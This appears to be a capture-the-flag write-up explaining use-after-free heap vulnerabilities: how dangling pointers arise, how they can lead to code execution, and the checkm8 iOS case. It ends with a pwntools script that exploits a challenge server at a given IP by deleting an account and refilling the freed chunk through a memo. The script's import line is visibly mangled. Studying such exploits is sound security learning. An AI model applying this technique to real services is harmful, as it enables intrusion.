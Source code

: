 
If you first create an account the pointer used for dynamic memory allocation will point at the end of the chunk.
If you delete it, then the pointer, instead of being set to null continues to refer to the now-freed memory, the result is a dangling pointer.


How UAF occurs

UAF vulnerabilities stem from the mechanism of dynamic memory allocation. Unlike the stack, dynamic memory (also known as the heap) is designed to store large amounts of data. Programmers can allocate blocks of arbitrary size in it, which tasks within a program can then either modify or free and return to the heap for subsequent use by other tasks in the same program.

Because dynamic memory is reallocated repeatedly, programs need to check constantly which sections of the heap are free and which are occupied. Here, headers help by referencing allocated memory areas. Each header contains the starting address of the corresponding block. UAF bugs arise when programs do not manage these headers properly.

Here’s how it happens. Pointers in a program refer to data sets in dynamic memory. If a data set is deleted or moved to another block but the pointer, instead of being cleared (set to null), continues to refer to the now-freed memory, the result is a dangling pointer. If the program then allocates this same chunk of memory to another object (for example, data entered by an attacker), the dangling pointer will now reference this new data set. In other words, UAF vulnerabilities allow for code substitution.

Potential consequences of UAF exploitation include:

    Data corruption,
    Program crashes,
    Arbitrary code execution.

Exploiting UAFs

An attacker can use UAFs to pass arbitrary code — or a reference to it — to a program and navigate to the beginning of the code by using a dangling pointer. In this way, execution of the malicious code can allow the cybercriminal to gain control over a victim’s system.

For example, to exploit the UAF vulnerability checkm8 in some iOS devices an attacker can initiate a USB-based update of the device firmware, and then instead of the firmware image, send a command to the device to exit DFU (Device Firmware Update) recovery mode. When the system tries to restart in this mode to terminate the aborted session, the attacker can pass arbitrary code to the device and execute it at the address of the buffer that was allocated before exiting and whose pointer was not cleared.


```assembly

```
exploit
```python
from pwn import *
from time import sleepp = remote("178.128.160.242",32219)
p.recvline("Please enter an operation number:")
sleep(1)
p.sendline("1")
sleep(1)
p.recvline("First name:")
p.sendline("")
sleep(1)
p.recvline("Last name:")
p.sendline("")
sleep(1)
p.recvline("Please enter an operation number:")
p.sendline("3")
p.recvline("Account deleted successfully")
sleep(1)
p.recvline("Please enter an operation number:")
p.sendline("5")
sleep(1)
p.recvline("Please enter memo:")
p.sendline("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAfuck")
p.recvline("Thank you, please keep this reference number number safe:")
sleep(1)
p.recvline("Please enter an operation number:")
p.sendline("5")
p.interactive()
```
